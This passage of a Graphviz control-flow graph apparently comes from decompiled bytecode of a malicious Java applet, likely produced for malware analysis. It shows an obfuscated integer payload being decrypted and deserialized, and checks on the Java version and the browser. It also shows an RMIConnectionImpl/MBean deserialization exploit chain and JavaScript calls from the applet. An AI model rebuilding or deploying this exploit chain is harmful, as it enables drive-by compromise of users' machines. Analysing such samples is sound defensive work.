    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 181"
    "load.r $r7"->"push 181";
    "push 181"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 182"
    "load.r $r7"->"push 182";
    "push 182"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 183"
    "load.r $r7"->"push 183";
    "push 183"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 184"
    "load.r $r7"->"push 184";
    "push 184"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 185"
    "load.r $r7"->"push 185";
    "push 185"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 186"
    "load.r $r7"->"push 186";
    "push 186"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 187"
    "load.r $r7"->"push 187";
    "push 187"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 188"
    "load.r $r7"->"push 188";
    "push 188"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 189"
    "load.r $r7"->"push 189";
    "push 189"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 190"
    "load.r $r7"->"push 190";
    "push 190"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 191"
    "load.r $r7"->"push 191";
    "push 191"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 192"
    "load.r $r7"->"push 192";
    "push 192"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 193"
    "load.r $r7"->"push 193";
    "push 193"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 194"
    "load.r $r7"->"push 194";
    "push 194"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 195"
    "load.r $r7"->"push 195";
    "push 195"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 196"
    "load.r $r7"->"push 196";
    "push 196"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 197"
    "load.r $r7"->"push 197";
    "push 197"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 198"
    "load.r $r7"->"push 198";
    "push 198"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 199"
    "load.r $r7"->"push 199";
    "push 199"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 200"
    "load.r $r7"->"push 200";
    "push 200"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 201"
    "load.r $r7"->"push 201";
    "push 201"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 202"
    "load.r $r7"->"push 202";
    "push 202"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 203"
    "load.r $r7"->"push 203";
    "push 203"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 204"
    "load.r $r7"->"push 204";
    "push 204"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 205"
    "load.r $r7"->"push 205";
    "push 205"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 206"
    "load.r $r7"->"push 206";
    "push 206"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 207"
    "load.r $r7"->"push 207";
    "push 207"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 208"
    "load.r $r7"->"push 208";
    "push 208"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 209"
    "load.r $r7"->"push 209";
    "push 209"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 210"
    "load.r $r7"->"push 210";
    "push 210"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 211"
    "load.r $r7"->"push 211";
    "push 211"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 212"
    "load.r $r7"->"push 212";
    "push 212"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 213"
    "load.r $r7"->"push 213";
    "push 213"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 214"
    "load.r $r7"->"push 214";
    "push 214"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 215"
    "load.r $r7"->"push 215";
    "push 215"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 216"
    "load.r $r7"->"push 216";
    "push 216"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 217"
    "load.r $r7"->"push 217";
    "push 217"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 218"
    "load.r $r7"->"push 218";
    "push 218"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 219"
    "load.r $r7"->"push 219";
    "push 219"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 220"
    "load.r $r7"->"push 220";
    "push 220"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 221"
    "load.r $r7"->"push 221";
    "push 221"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 222"
    "load.r $r7"->"push 222";
    "push 222"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 223"
    "load.r $r7"->"push 223";
    "push 223"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 224"
    "load.r $r7"->"push 224";
    "push 224"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 225"
    "load.r $r7"->"push 225";
    "push 225"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 226"
    "load.r $r7"->"push 226";
    "push 226"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 227"
    "load.r $r7"->"push 227";
    "push 227"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 228"
    "load.r $r7"->"push 228";
    "push 228"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 229"
    "load.r $r7"->"push 229";
    "push 229"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 230"
    "load.r $r7"->"push 230";
    "push 230"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 231"
    "load.r $r7"->"push 231";
    "push 231"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 232"
    "load.r $r7"->"push 232";
    "push 232"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 233"
    "load.r $r7"->"push 233";
    "push 233"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 234"
    "load.r $r7"->"push 234";
    "push 234"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 235"
    "load.r $r7"->"push 235";
    "push 235"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 236"
    "load.r $r7"->"push 236";
    "push 236"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 237"
    "load.r $r7"->"push 237";
    "push 237"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 238"
    "load.r $r7"->"push 238";
    "push 238"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 239"
    "load.r $r7"->"push 239";
    "push 239"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 240"
    "load.r $r7"->"push 240";
    "push 240"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 241"
    "load.r $r7"->"push 241";
    "push 241"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 242"
    "load.r $r7"->"push 242";
    "push 242"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 243"
    "load.r $r7"->"push 243";
    "push 243"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 244"
    "load.r $r7"->"push 244";
    "push 244"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 245"
    "load.r $r7"->"push 245";
    "push 245"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 246"
    "load.r $r7"->"push 246";
    "push 246"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 247"
    "load.r $r7"->"push 247";
    "push 247"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 248"
    "load.r $r7"->"push 248";
    "push 248"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 249"
    "load.r $r7"->"push 249";
    "push 249"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 250"
    "load.r $r7"->"push 250";
    "push 250"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 251"
    "load.r $r7"->"push 251";
    "push 251"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 252"
    "load.r $r7"->"push 252";
    "push 252"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 253"
    "load.r $r7"->"push 253";
    "push 253"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 254"
    "load.r $r7"->"push 254";
    "push 254"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 255"
    "load.r $r7"->"push 255";
    "push 255"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 256"
    "load.r $r7"->"push 256";
    "push 256"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 257"
    "load.r $r7"->"push 257";
    "push 257"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 258"
    "load.r $r7"->"push 258";
    "push 258"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 259"
    "load.r $r7"->"push 259";
    "push 259"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 260"
    "load.r $r7"->"push 260";
    "push 260"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 261"
    "load.r $r7"->"push 261";
    "push 261"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 262"
    "load.r $r7"->"push 262";
    "push 262"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 263"
    "load.r $r7"->"push 263";
    "push 263"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 264"
    "load.r $r7"->"push 264";
    "push 264"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 265"
    "load.r $r7"->"push 265";
    "push 265"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 266"
    "load.r $r7"->"push 266";
    "push 266"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 267"
    "load.r $r7"->"push 267";
    "push 267"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 268"
    "load.r $r7"->"push 268";
    "push 268"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 269"
    "load.r $r7"->"push 269";
    "push 269"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 270"
    "load.r $r7"->"push 270";
    "push 270"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 271"
    "load.r $r7"->"push 271";
    "push 271"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 272"
    "load.r $r7"->"push 272";
    "push 272"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 273"
    "load.r $r7"->"push 273";
    "push 273"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 274"
    "load.r $r7"->"push 274";
    "push 274"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 275"
    "load.r $r7"->"push 275";
    "push 275"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 276"
    "load.r $r7"->"push 276";
    "push 276"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 277"
    "load.r $r7"->"push 277";
    "push 277"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 278"
    "load.r $r7"->"push 278";
    "push 278"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 279"
    "load.r $r7"->"push 279";
    "push 279"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 280"
    "load.r $r7"->"push 280";
    "push 280"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 281"
    "load.r $r7"->"push 281";
    "push 281"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 282"
    "load.r $r7"->"push 282";
    "push 282"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 283"
    "load.r $r7"->"push 283";
    "push 283"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 284"
    "load.r $r7"->"push 284";
    "push 284"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 285"
    "load.r $r7"->"push 285";
    "push 285"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 286"
    "load.r $r7"->"push 286";
    "push 286"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 287"
    "load.r $r7"->"push 287";
    "push 287"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 288"
    "load.r $r7"->"push 288";
    "push 288"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 289"
    "load.r $r7"->"push 289";
    "push 289"->"push 19";
    "push 19"->"arraywrite.i";
    "new java.lang.String"
    "arraywrite.i"->"new java.lang.String";
    "new java.lang.String"->"load.r $r7";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "load.r $r7"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r $r7";
    "store.r $r7"->"load.r $r7";
    "load.r $r7"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r $r17";
    "goto load.r r2"
    "store.r $r17"->"goto load.r r2";
    "load.r r2"
    "goto load.r r2"->"load.r r2";
    "push \"notie\""
    "load.r r2"->"push \"notie\"";
    "push \"notie\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i push 0"
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b $r17"
    "push 1"->"store.b $r17";
    "goto load.r r1"
    "store.b $r17"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "push \"1.6.0_19\""
    "load.r r1"->"push \"1.6.0_19\"";
    "push \"1.6.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b $r7"
    "push 1"->"store.b $r7";
    "goto load.b $r17"
    "store.b $r7"->"goto load.b $r17";
    "load.b $r17"
    "goto load.b $r17"->"load.b $r17";
    "load.b $r7"
    "load.b $r17"->"load.b $r7";
    "and.b"
    "load.b $r7"->"and.b";
    "ifeq load.r r1"
    "and.b"->"ifeq load.r r1";
    "ifeq load.r r1"->"load.r r0";
    "virtualinvoke <a: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <a: java.applet.AppletContext getAppletContext()>";
    "new java.net.URL"
    "virtualinvoke <a: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"javascript:JAVASMB();\""
    "dup1.r"->"push \"javascript:JAVASMB();\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"javascript:JAVASMB();\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "load.r r1"->"push \"1.6.0_19\"";
    "push \"1.6.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 1"
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r1";
    "push \"1.6.0_20\""
    "load.r r1"->"push \"1.6.0_20\"";
    "push \"1.6.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r1";
    "push \"1.6.0_21\""
    "load.r r1"->"push \"1.6.0_21\"";
    "push \"1.6.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"push 0";
    "store.b r1"
    "push 0"->"store.b r1";
    "store.b r1"->"goto load.r r2";
    "goto load.r r2"->"load.r r2";
    "push \"isie\""
    "load.r r2"->"push \"isie\"";
    "push \"isie\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b r2"
    "push 1"->"store.b r2";
    "goto load.b r1"
    "store.b r2"->"goto load.b r1";
    "load.b r1"
    "goto load.b r1"->"load.b r1";
    "load.b r2"
    "load.b r1"->"load.b r2";
    "load.b r2"->"and.b";
    "ifeq return"
    "and.b"->"ifeq return";
    "ifeq return"->"load.r r0";
    "load.r r0"->"virtualinvoke <a: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <a: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"javascript:JAVASKYLINE();\""
    "dup1.r"->"push \"javascript:JAVASKYLINE();\"";
    "push \"javascript:JAVASKYLINE();\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"store.r r0";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b r2";
    "ifcmpne.i push 1"->"push 1";
    "push 1"->"store.b r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"store.r $r17";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b $r7";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b $r17";
    "push null"->"store.r $r17";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r $r7";
    "new CusBen"
    "load.r $r7"->"new CusBen";
    "new CusBen"->"dup1.r";
    "specialinvoke <CusBen: void <init>()>"
    "dup1.r"->"specialinvoke <CusBen: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <CusBen: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r $r7";
    "push \"javasucks\""
    "load.r $r7"->"push \"javasucks\"";
    "push \"javasucks\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "load.r $r17"
    "push null"->"load.r $r17";
    "load.r $r17"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto load.r r2";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "load.r $r7"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "load.r $r7"->"staticinvoke <a: java.lang.String decrypt(int[])>";
    "staticinvoke <a: byte[] HexDecode(java.lang.String)>"
    "staticinvoke <a: java.lang.String decrypt(int[])>"->"staticinvoke <a: byte[] HexDecode(java.lang.String)>";
    "store.r r81"
    "staticinvoke <a: byte[] HexDecode(java.lang.String)>"->"store.r r81";
    "load.r r81"
    "store.r r81"->"load.r r81";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "load.r r81"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "new java.io.ByteArrayInputStream"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"store.r $r7";
    "store.r $r7"->"load.r $r7";
    "load.r $r7"->"load.r r81";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r81"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r $r7";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r $r7"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r $r17";
    "store.r $r17"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
}
